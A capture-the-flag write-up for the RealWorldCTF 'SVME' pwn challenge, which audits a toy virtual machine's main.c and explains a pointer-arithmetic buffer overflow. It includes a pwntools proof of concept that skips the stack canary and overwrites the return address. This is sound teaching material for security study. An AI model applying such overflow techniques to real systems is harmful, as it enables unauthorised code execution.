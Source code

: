 ## RealWorldCTF - SVME [Pwn] ( 91 solves )
### Difficulty: baby
**Description**

Professor Terence Parr has taught us [how to build a virtual machine](https://www.slideshare.net/parrt/how-to-build-a-virtual-machine). Now it's time to break it!

## General overview
The SVME binary challenge is a simple implementation of a small virtual machine as presented in Prof. Terence Parr slides in the description of the challenge. We can send 512 bytes of bytecode to the virtual machine and the virtual machine will run all the instructions which we sent to it.

## Binary details
```
$ file svme
svme: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=ac06c33f16248df7768fed3ecefb7e6a85ec5941, not stripped
```
Enabled protections:
```
$ checksec svme
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The provided libc is: `libc 2.31`

## Code audit
### `main.c`
```c
#include <stdbool.h>
#include <unistd.h>
#include "vm.h"

int main(int argc, char *argv[]) {
    int code[128], nread = 0;
    while (nread < sizeof(code)) {
        int ret = read(0, code+nread, sizeof(code)-nread);
        if (ret <= 0) break;
        nread += ret;
    }
    VM *vm = vm_create(code, nread/4, 0);
    vm_exec(vm, 0, true);
    vm_free(vm);
    return 0;
}
```
The very first thing I found was a buffer overflow in `main` while reading our input to the `code` buffer but actually I didn't use it at all for my exploit.
If an attacker sends exacly 128 bytes they will be copied to the `code` buffer and `nread` will be 128. But next time the attacker sends data to the program `code+nread` will cause a buffer overflow because the author does not realize that he is using pointer arithmetic and not simple addition to calculate where to write next to the `code` buffer. And if we carefully craft our payload we can bypass the stack canary too. Below is a simple example triggering the described buffer overflow:

```python3
from pwn import *
elf = context.binary = ELF('./svme_patched')
io = gdb.debug('./svme_patched')

# \x12 byte is telling the virtual machine to stop the execution of the program as soon as possible, so we are putting it first inorder to skip 
# the remainding payload that we are sending to avoid segfault in vm_exec function.
info('Skipping the stack canary!')
io.send(b'\x12'+b'\x00'*(128+3))

info('Buffer overflow!')
rbp = b'B'*8
rip = p64(0xdeadbeef)
padding = b'C'*400 # doesn't matter if we exceed 512 bytes the remaining bytes will be discarded.
io.send(rbp + rip + padding)

io.interactive()
```
